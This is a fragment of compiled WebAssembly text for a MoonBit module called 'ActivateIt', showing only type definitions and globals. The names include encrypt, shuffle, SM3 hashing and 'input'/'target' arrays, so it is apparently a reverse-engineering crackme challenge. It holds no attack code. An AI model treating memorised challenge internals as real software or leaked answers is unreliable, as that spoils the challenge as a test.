  (type $$username/ActivateIt.shuffle|<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>|.fn/44-cap (;48;) (sub $<Int*Int>=>Unit (struct (field $field0 (mut (ref null $<Int*Int>=>Unit-sig))) (field $field1 (mut (ref null $@moonbitlang/core/builtin.Array<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>))))))
  (rec
    (type $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig (;49;) (func
      (param $*env/731 (ref $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
      (param $x/587 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
      (result (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))))
    (type $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> (;50;) (struct (field $field0 (mut (ref null $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig)))))
  )
  (rec
    (type $<Int*<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig (;51;) (func
      (param $*env/728 (ref $<Int*<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int))
      (param $x/584 i32)
      (param $var2 (ref $<<Int>=>Int>=><Int>=>Int))
      (result (ref $<<Int>=>Int>=><Int>=>Int))))
    (type $<Int*<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int (;52;) (struct (field $field0 (mut (ref null $<Int*<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig)))))
  )
  (type $$username/ActivateIt.encrypt.fn/47-cap (;53;) (sub $<Int*<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int (struct (field $field0 (mut (ref null $<Int*<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig))) (field $field1 (mut (ref null $@moonbitlang/core/builtin.Array<<<Int>=>Int>=><Int>=>Int>))))))
  (type $@moonbitlang/core/builtin.Array<Byte> (;54;) (struct (field $field0 (mut (ref $moonbit.bytes))) (field $field1 (mut i32))))
  (type $Iter::collect|Byte|.fn/9-cap (;55;) (sub $<Int>=>Int (struct (field $field0 (mut (ref null $<Int>=>Int-sig))) (field $field1 (mut (ref null $@moonbitlang/core/builtin.Array<Byte>))))))
  (type $<UInt64*Bool> (;56;) (struct (field $field0 i64) (field $field1 i32)))
  (type $$username/ActivateIt.encrypt.fn/51-cap (;57;) (sub $<Int>=><<Int>=>Int>=><Int>=>Int (struct
    (field $field0 (mut (ref null $<Int>=><<Int>=>Int>=><Int>=>Int-sig)))
    (field $field1 (mut (ref null $@moonbitlang/core/random.Rand)))
    (field $field2 (mut i32)))))
  (type $$username/ActivateIt.sub_401116|<Int*Int>|.fn/20-cap (;58;) (sub $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (struct
    (field $field0 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig)))
    (field $field1 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)))
    (field $field2 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))))
  (rec
    (type $@moonbitlang/core/builtin.Logger (;59;) (struct
      (field $field0 (ref $@moonbitlang/core/builtin.Logger.method_0))
      (field $field1 (ref $@moonbitlang/core/builtin.Logger.method_1))
      (field $field2 (ref $@moonbitlang/core/builtin.Logger.method_2))
      (field $field3 (ref $@moonbitlang/core/builtin.Logger.method_3))))
    (type $@moonbitlang/core/builtin.Logger.method_0 (;60;) (func
      (param $c/574 (ref $@moonbitlang/core/builtin.Logger))
      (param $*func/573 (ref $moonbit.string))
      (result i32)))
    (type $@moonbitlang/core/builtin.Logger.method_1 (;61;) (func
      (param $c/572 (ref $@moonbitlang/core/builtin.Logger))
      (param $*func/571 (ref $moonbit.string))
      (param $var2 i32)
      (param $var3 i32)
      (result i32)))
    (type $@moonbitlang/core/builtin.Logger.method_2 (;62;) (func
      (param $c/570 (ref $@moonbitlang/core/builtin.Logger))
      (param $*func/569 (ref $moonbit.string))
      (param $var2 i32)
      (param $var3 i32)
      (result i32)))
    (type $@moonbitlang/core/builtin.Logger.method_3 (;63;) (func
      (param $m/567 (ref $@moonbitlang/core/builtin.Logger))
      (param $var1 i32)
      (result i32)))
  )
  (type $$username/ActivateIt.shuffle|<<Int>=>Int>=><Int>=>Int|.fn/45-cap (;64;) (sub $<Int*Int>=>Unit (struct (field $field0 (mut (ref null $<Int*Int>=>Unit-sig))) (field $field1 (mut (ref null $@moonbitlang/core/builtin.Array<<<Int>=>Int>=><Int>=>Int>))))))
  (type $$username/ActivateIt.sub_401116|Int|.fn/24-cap (;65;) (sub $<Int>=>Int (struct
    (field $field0 (mut (ref null $<Int>=>Int-sig)))
    (field $field1 (mut (ref null $<<Int>=>Int>=><Int>=>Int)))
    (field $field2 (mut (ref null $<Int>=>Int)))
    (field $field3 (mut (ref null $<<Int>=>Int>=><Int>=>Int))))))
  (type $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/13-cap (;66;) (sub $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> (struct (field $field0 (mut (ref null $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig))) (field $field1 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))))))
  (type $moonbit.array_i32 (;67;) (array (field (mut i32))))
  (type $$username/ActivateIt.sub_401554|<Int*Int>|.fn/41-cap (;68;) (sub $<<Int*Int>>=><Int*Int> (struct
    (field $field0 (mut (ref null $<<Int*Int>>=><Int*Int>-sig)))
    (field $field1 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)))
    (field $field2 (mut (ref null $<<Int*Int>>=><Int*Int>))))))
  (type $$username/ActivateIt.sub_401536|Int|.fn/35-cap (;69;) (sub $<<Int>=>Int>=><Int>=>Int (struct (field $field0 (mut (ref null $<<Int>=>Int>=><Int>=>Int-sig))) (field $field1 (mut (ref null $<<Int>=>Int>=><Int>=>Int))))))
  (type $$moonbitlang/x/crypto.arr_u32_to_u8be.fn/10-cap (;70;) (sub $<Int*Int>=>Unit (struct (field $field0 (mut (ref null $<Int*Int>=>Unit-sig))) (field $field1 (mut (ref null $moonbit.bytes))))))
  (rec
    (type $<Int>=>FixedArray<UInt>-sig (;71;) (func
      (param $m/555 (ref $<Int>=>FixedArray<UInt>))
      (param $var1 i32)
      (result (ref $FixedArray<UInt>))))
    (type $<Int>=>FixedArray<UInt> (;72;) (struct (field $field0 (mut (ref null $<Int>=>FixedArray<UInt>-sig)))))
  )
  (type $Ref<UInt> (;73;) (struct (field $field0 (mut i32))))
  (type $Bytes::iter.fn/4-cap (;74;) (sub $<<Byte>=>Int>=>Int (struct (field $field0 (mut (ref null $<<Byte>=>Int>=>Int-sig))) (field $field1 (mut (ref null $moonbit.bytes))))))
  (type $$username/ActivateIt.encrypt.fn/46-cap (;75;) (sub $<Int*<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int (struct (field $field0 (mut (ref null $<Int*<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig))) (field $field1 (mut (ref null $@moonbitlang/core/builtin.Array<<<Int>=>Int>=><Int>=>Int>))))))
  (type $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/18-cap (;76;) (sub $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (struct
    (field $field0 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig)))
    (field $field1 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)))
    (field $field2 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)))
    (field $field3 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))))
  (rec
    (type $<<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig (;77;) (func
      (param $*env/698 (ref $<<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
      (param $f/546 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
      (result (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))
    (type $<<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (;78;) (struct (field $field0 (mut (ref null $<<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig)))))
  )
  (type $FixedArray<Char> (;79;) (array (field (mut i32))))
  (type $FixedArray<UnsafeMaybeUninit<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>> (;80;) (array (field (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)))))
  (type $$username/ActivateIt.sub_401536|<<Int*Int>>=><Int*Int>|.fn/31-cap (;81;) (sub $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (struct (field $field0 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig))) (field $field1 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))))
  (type $$username/ActivateIt.sub_401326|Int|.fn/26-cap (;82;) (sub $<<Int>=>Int>=><Int>=>Int (struct
    (field $field0 (mut (ref null $<<Int>=>Int>=><Int>=>Int-sig)))
    (field $field1 (mut (ref null $<<Int>=>Int>=><Int>=>Int)))
    (field $field2 (mut (ref null $<<Int>=>Int>=><Int>=>Int))))))
  (type $@moonbitlang/core/builtin.StringBuilder (;83;) (struct (field $field0 (mut (ref $moonbit.bytes))) (field $field1 (mut i32))))
  (type $@moonbitlang/core/builtin.StringBuilder.as_@moonbitlang/core/builtin.Logger (;84;) (sub $@moonbitlang/core/builtin.Logger (struct
    (field $field0 (ref $@moonbitlang/core/builtin.Logger.method_0))
    (field $field1 (ref $@moonbitlang/core/builtin.Logger.method_1))
    (field $field2 (ref $@moonbitlang/core/builtin.Logger.method_2))
    (field $field3 (ref $@moonbitlang/core/builtin.Logger.method_3))
    (field $field4 (ref $@moonbitlang/core/builtin.StringBuilder)))))
  (type $@moonbitlang/core/random.UInt128 (;85;) (struct (field $field0 (mut i64)) (field $field1 (mut i64))))
  (type $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/14-cap (;86;) (sub $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> (struct
    (field $field0 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig)))
    (field $field1 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)))
    (field $field2 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))))))
  (rec
    (type $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<Int>=>Int>=><Int>=>Int-sig (;87;) (func
      (param $var0 (ref $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<Int>=>Int>=><Int>=>Int))
      (param $var1 (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
      (result (ref $<<Int>=>Int>=><Int>=>Int))))
    (type $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<Int>=>Int>=><Int>=>Int (;88;) (struct (field $field0 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<Int>=>Int>=><Int>=>Int-sig)))))
  )
  (type $@moonbitlang/core/builtin.Array<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>> (;89;) (struct (field $field0 (mut (ref $FixedArray<UnsafeMaybeUninit<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>>))) (field $field1 (mut i32))))
  (type $$username/ActivateIt.sub_401261|<Int*Int>|.fn/43-cap (;90;) (sub $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (struct (field $field0 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig))) (field $field1 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))))
  (type $$username/ActivateIt.sub_401116|<Int*Int>|.fn/19-cap (;91;) (sub $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (struct (field $field0 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig))) (field $field1 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))))
  (type $@moonbitlang/x/crypto.SM3Context (;92;) (struct
    (field $field0 (ref $FixedArray<UInt>))
    (field $field1 (mut i64))
    (field $field2 (mut (ref $moonbit.bytes)))
    (field $field3 (mut i32))))
  (type $$username/ActivateIt.sub_401554|Int|.fn/39-cap (;93;) (sub $<<Int*Int>>=><Int*Int> (struct (field $field0 (mut (ref null $<<Int*Int>>=><Int*Int>-sig))) (field $field1 (mut (ref null $<Int>=>Int))))))
  (type $$username/ActivateIt.sub_401116|Int|.fn/23-cap (;94;) (sub $<<Int>=>Int>=><Int>=>Int (struct
    (field $field0 (mut (ref null $<<Int>=>Int>=><Int>=>Int-sig)))
    (field $field1 (mut (ref null $<<Int>=>Int>=><Int>=>Int)))
    (field $field2 (mut (ref null $<<Int>=>Int>=><Int>=>Int))))))
  (type $<Int*@moonbitlang/core/builtin.Logger> (;95;) (struct (field $field0 i32) (field $field1 (ref $@moonbitlang/core/builtin.Logger))))
  (type $$username/ActivateIt.sub_401554|Int|.fn/37-cap (;96;) (sub $<<Int>=>Int>=><Int>=>Int (struct (field $field0 (mut (ref null $<<Int>=>Int>=><Int>=>Int-sig))) (field $field1 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))))
  (type $$username/ActivateIt.sub_401326|Int|.fn/27-cap (;97;) (sub $<Int>=>Int (struct
    (field $field0 (mut (ref null $<Int>=>Int-sig)))
    (field $field1 (mut (ref null $<Int>=>Int)))
    (field $field2 (mut (ref null $<<Int>=>Int>=><Int>=>Int))))))
  (type $$username/ActivateIt.sub_401554|<Int*Int>|.fn/42-cap (;98;) (sub $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> (struct (field $field0 (mut (ref null $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig))) (field $field1 (mut (ref null $<<Int*Int>>=><Int*Int>))))))
  (type $@moonbitlang/core/builtin.Array<Char> (;99;) (struct (field $field0 (mut (ref $FixedArray<Char>))) (field $field1 (mut i32))))
  (type $Iter::eachi|UInt|.fn/7-cap (;100;) (sub $<Int>=>Int (struct
    (field $field0 (mut (ref null $<Int>=>Int-sig)))
    (field $field1 (mut (ref null $<Int*Int>=>Unit)))
    (field $field2 (mut (ref null $Ref<Int>))))))
  (type $Iter::each|Byte|.fn/5-cap (;101;) (sub $<Int>=>Int (struct (field $field0 (mut (ref null $<Int>=>Int-sig))) (field $field1 (mut (ref null $<Int>=>Int))))))
  (type $FixedArray<FixedArray<UInt>> (;102;) (array (field (mut (ref $FixedArray<UInt>)))))
  (type $@moonbitlang/x/crypto.SM3Context::update_from_iter.fn/11-cap (;103;) (sub $<Int>=>Int (struct (field $field0 (mut (ref null $<Int>=>Int-sig))) (field $field1 (mut (ref null $@moonbitlang/x/crypto.SM3Context))))))
  (rec
    (type $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig (;104;) (func
      (param $self/442 (ref $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
      (param $f/447 (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
      (result (ref $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))
    (type $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (;105;) (struct (field $field0 (mut (ref null $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig)))))
  )
  (type $@moonbitlang/core/builtin.Array<Int> (;106;) (struct (field $field0 (mut (ref $moonbit.array_i32))) (field $field1 (mut i32))))
  (rec
    (type $<Int>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig (;107;) (func
      (param $str/433 (ref $<Int>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
      (param $*self/432 i32)
      (result (ref $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))))
    (type $<Int>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> (;108;) (struct (field $field0 (mut (ref null $<Int>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig)))))
  )
  (type $$username/ActivateIt.sub_401536|Int|.fn/36-cap (;109;) (sub $<Int>=>Int (struct
    (field $field0 (mut (ref null $<Int>=>Int-sig)))
    (field $field1 (mut (ref null $<<Int>=>Int>=><Int>=>Int)))
    (field $field2 (mut (ref null $<Int>=>Int))))))
  (type $$username/ActivateIt.sub_401116|<Int*Int>|.fn/21-cap (;110;) (sub $<<Int*Int>>=><Int*Int> (struct
    (field $field0 (mut (ref null $<<Int*Int>>=><Int*Int>-sig)))
    (field $field1 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)))
    (field $field2 (mut (ref null $<<Int*Int>>=><Int*Int>)))
    (field $field3 (mut (ref null $<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))))
  (type $$username/ActivateIt.sub_401116|<<Int*Int>>=><Int*Int>|.fn/16-cap (;111;) (sub $<<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int> (struct (field $field0 (mut (ref null $<<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>-sig))) (field $field1 (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))))))
  (type $$username/ActivateIt.sub_401116|<<Int*Int>*<Int*Int>>|.fn/15-cap (;112;) (sub $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> (struct
    (field $field0 (mut (ref null $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig)))
    (field $field1 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)))
    (field $field2 (mut (ref null $<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)))
    (field $field3 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))))))
  (type $$username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>|.fn/33-cap (;113;) (sub $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>> (struct (field $field0 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>-sig))) (field $field1 (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))))))
  (type $$username/ActivateIt.sub_401326|Int|.fn/25-cap (;114;) (sub $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int (struct (field $field0 (mut (ref null $<<<Int>=>Int>=><Int>=>Int>=><<Int>=>Int>=><Int>=>Int-sig))) (field $field1 (mut (ref null $<<Int>=>Int>=><Int>=>Int))))))
  (type $Bytes::from_fixedarray.fn/3-cap (;115;) (sub $<Int>=>Int (struct (field $field0 (mut (ref null $<Int>=>Int-sig))) (field $field1 (mut (ref null $moonbit.bytes))))))
  (memory $moonbit.memory (;0;) 1)
  (global $moonbitlang/core/random.gUInt128 (;0;) (mut (ref null $@moonbitlang/core/random.UInt128)) (ref.null $@moonbitlang/core/random.UInt128))
  (global $moonbitlang/core/random/internal/random_source.chunk (;1;) i32 (i32.const 32))
  (global $moonbitlang/core/random/internal/random_source.ctrInc (;2;) i32 (i32.const 4))
  (global $moonbitlang/core/random/internal/random_source.ctrMax (;3;) i32 (i32.const 16))
  (global $moonbitlang/x/crypto.t (;4;) (mut (ref null $FixedArray<UInt>)) (ref.null $FixedArray<UInt>))
  (global $username/ActivateIt.input (;5;) (mut (ref null $@moonbitlang/core/builtin.Array<Int>)) (ref.null $@moonbitlang/core/builtin.Array<Int>))
  (global $username/ActivateIt.target (;6;) (mut (ref null $@moonbitlang/core/builtin.Array<Int>)) (ref.null $@moonbitlang/core/builtin.Array<Int>))
  (global $username/ActivateIt.sub_401031|<<Int*Int>*<Int*Int>>| (;7;) (mut (ref null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (ref.null $<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
  (global $username/ActivateIt.sub_401536|<<Int*Int>*<Int*Int>>| (;8;) (mut (ref null $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (ref.null $<<<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
  (global $username/ActivateIt.sub_401031|Int| (;9;) (mut (ref null $<<Int>=>Int>=><Int>=>Int)) (ref.null $<<Int>=>Int>=><Int>=>Int))
  (global $username/ActivateIt.sub_401641|<<Int*Int>*<Int*Int>>| (;10;) (mut (ref null $<Int>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>)) (ref.null $<Int>=><<<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>>=><<<Int*Int>*<Int*Int>>>=><<Int*Int>*<Int*Int>>))
  (global $username/ActivateIt.sub_401031|<<Int*Int>>=><Int*Int>| (;11;) (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>)) (ref.null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>))
  (global $username/ActivateIt.sub_401554|Int| (;12;) (mut (ref null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<Int>=>Int>=><Int>=>Int)) (ref.null $<<<<Int*Int>>=><Int*Int>>=><<Int*Int>>=><Int*Int>>=><<Int>=>Int>=><Int>=>Int))
